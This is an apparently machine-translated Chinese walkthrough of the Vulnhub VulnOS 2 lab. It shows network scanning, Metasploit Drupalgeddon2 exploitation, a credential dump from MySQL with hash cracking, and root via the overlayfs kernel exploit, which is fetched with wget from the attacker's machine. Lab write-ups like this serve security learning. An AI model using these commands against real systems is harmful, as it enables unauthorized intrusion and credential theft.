# Vulnhub: VulnOS 2 演练

> 原文：<https://infosecwriteups.com/vulnhub-vulnos-2-walkthrough-7ca0b9db013f?source=collection_archive---------0----------------------->

嘿，各位，这里有一个来自**vulnhub*VulnOS 2****的盒子的特写。我在 5 个月前写了这篇文章，我很想分享我的笔记(那时候我是怎么写的)。我今天会发表 vulnhub 的所有评论。你可以从这里下载这个盒子，*

[](https://www.vulnhub.com/entry/vulnos-2,147/) [## 武尔诺斯:2

### 该网站使用“cookies”为您提供最佳、最相关的体验。使用这个网站意味着你对…

www.vulnhub.com](https://www.vulnhub.com/entry/vulnos-2,147/) 

**扫描网络**

使用`netdiscover`我们将找出机器的 IP 地址

```
sudo netdiscover -r 10.0.2.0/24
```



现在我们知道了机器的 IP 地址，我们可能想知道哪些端口是打开的，服务正在运行，等等，我们将通过 nmap 实现这一点，我们将把输出保存在 **nmap.txt** 中。

```
sudo nmap -A -T4 -p- 10.0.2.74 -oN nmap_scan
```



我们可以看到有 3 个端口是开放的，即 22 (SSH)、80 (http)、6667 (irc)。

让我们先来看看网站上运行的是什么技术，

```
whatweb http://10.0.2.74
```



没什么！！

让我们访问网站 [http://10.0.2.74](http://10.0.2.74/) ，



有一个超链接，让我们跟着它走，

我们进入了新的网站 [http://10.0.2.74/jabc/](http://10.0.2.74/jabc/) ，



现在让我们来看看机器上运行的是什么技术，

```
whatweb http://10.0.2.74/jabc
```



这个网站运行的是 **Drupal 软件 v7** 。

让我们运行 nikto 扫描，

```
nitko --host http://10.0.2.74/jabc --output nikto.txt
```



还有一个 **robots.txt** 文件。

在继续之前，让我们也对目录进行暴力破解，

```
python3 /home/kali/dirsearch/dirsearch.py -u http://10.0.2.74/jabc -e txt,php -i 200,301 -o dirsearch_scan
```



有很多目录和文件！！

让我们从 robots.txt 文件开始，



该文件不允许许多文件和目录。

万一你不知道 robots.txt 文件是什么，它是做什么的，

```
This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    [http://example.com/robots.txt](http://example.com/robots.txt)
# Ignored: [http://example.com/site/robots.txt](http://example.com/site/robots.txt)
#
# For more information about the robots.txt standard, see:
# [http://www.robotstxt.org/wc/robots.html](http://www.robotstxt.org/wc/robots.html)
#
# For syntax checking, see:
# [http://www.sxw.org.uk/computing/robots/check.html](http://www.sxw.org.uk/computing/robots/check.html)
```

(在看到包含 robots.txt 文件解释的 blob 后，我被逗乐了)

注意:通常在**config.php**文件中有凭证，所以如果它存在，我们将立即获得凭证。

但由于这个盒子运行在 Drupal v7 软件上，让我们搜索它的漏洞(研究)，经过研究我发现漏洞名称是 **Drupalgeddon** ，所以让我们寻找这个漏洞，

```
searchsploit drupalgeddon
```



我们有一个 metasploit 模块。让我们使用它。

运行`msfconsole -q`运行 metasploit-framework 并搜索 drupalgeddon 模块，

```
search drupalgeddon
```



我们将使用这个模块。快跑，

我们将加载这个模块，

```
use exploit/unix/webapp/drupal_drupalgeddon2
```

然后设置选项，

*   **设定 rhosts 10.0.2.74**
*   **设置 lhost 10.0.2.15**
*   **设置 lport 4444**
*   **设置 r 端口 80**
*   **设置 targeturi /jabc/**

让我们交叉检查一下我们是否把所有事情都做对了，`options`



让我们现在`run`这个模块，看看会发生什么，



我们有一个测试会议。

让我们首先通过在 meterpreter shell 中运行这个命令来了解系统信息，

```
sysinfo
```



这是一台 linux 机器(我已经知道了，XD)

让我们用`shell`命令得到一个 shell，我们将得到一个简单的 shell，但是我们将改进它的功能，

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



我们知道我们有一个网络外壳。因此，我们必须找到用户的凭证，以便我们可以 SSH 一个用户。

使用`ls`建立目录内容，



有许多文件，但是这些文件里什么也没有。

回到上一个目录，我们得到了另一个名为 **jabcd0cs** 的目录，让我们导航到它，



使用`ls`建立内容，



有一份 config.php 的档案。让我们`cat`出它的内容，

```
cat config.php
```



我们得到了 mysql 凭证。下面我们连线 **mysql db** ！

```
mysql -u root -p
```



输入密码后，我们将连接到 mysql 数据库。

现在，让我们执行一个查询来列出所有数据库，

```
show databases;
```



jabcd0cs 数据库似乎很有趣。让我们使用它！

```
use jabcd0cs;
```



让我们验证一下我们是否使用了正确的数据库，

```
select database();
```



是的我们。现在，让我们列出这个数据库中的表，

```
show tables;
```



有一个 **odm_user** 表。这张桌子看起来很奇怪。让我们来看看这个表的内容，

```
describe odm_user;
```



正如我们所看到的，这个表中有用户名和密码(这就是我们要找的！！)，我们来查询一下他们，

```
select * from odm_user;
```



我们得到了 **webmin** 和 **guest** 用户名以及他们的密码散列。让我们通过访问[https://www.md5online.org/md5-decrypt.html](https://www.md5online.org/md5-decrypt.html)来破解 webmin 用户密码哈希

```
#show databases;  /querying with DB to show all databases
#use [database];  /use particular database
#select database();  /Determine what database is in use
#show tables;   /show all tables in particular database
#describe table;  /Show table structure
#select * from table; /Selecting records from table
```



我们得到了破解密码！！让我们通过 SSH 作为 webmin 用户登录，

```
ssh webmin@10.0.2.74
```



我们获得了 webmin 用户的访问权限！让我们找一个合适的贝壳，

```
/bin/bash -i
```



在列举了一点之后，我发现我们可以在这一点上做**特权提升**。

让我们看一下系统信息，

```
uname -a
```



做了一点研究后，我发现了这个版本内核的**内核漏洞**，



**CVE-2015–1328:Linux 内核 3 . 13 . 0<3.19(Ubuntu 12.04/14.04/14.10/15.04)——‘overlayfs’本地权限提升**

我们将在我们的机器上下载这个漏洞，然后将其转移到远程机器上，但在转移之前，启动 python 服务器，通过`python3 -m http.server`在远程机器上提供文件，现在我们将在远程机器上转移这个漏洞。

首先，让我们导航到 **/tmp** 目录，然后在远程机器上下载这个漏洞，

```
wget http://10.0.2.15:8000/overlayfs.c
```



在远程机器上下载漏洞后，我们将在我们的 python 服务器上获得连接请求，这意味着下载成功，



我们将按照这些步骤成功编译漏洞并运行它以获得系统访问权限，



现在，让我们使用 **gcc** 编译器来编译这个漏洞，

```
gcc overlayfs.c -o overlayfs
```

我们的利用将被编译。现在，让我们检查一下我们的漏洞是否被`ls -la`编译了，



确实是！！现在，我们将检查我们的用户`id`(最后一次)，


我们是 webmin 用户，现在让我们运行这个编译过漏洞，

```
./overlayfs
```



我们可以进入系统了！！而我们可以通过发出 **id** 命令来确认。

让我们导航到 **/root** 目录并寻找标志，

```
cd /root ls -la
```



最后一项任务，让我们查看根标志的内容，

```
cat flag.txt
```



我们已经成功利用了这个盒子。

我希望你喜欢这篇文章，因为看完我写的东西后，我笑得很厉害。但和你们分享还是很好的。注意安全！再见。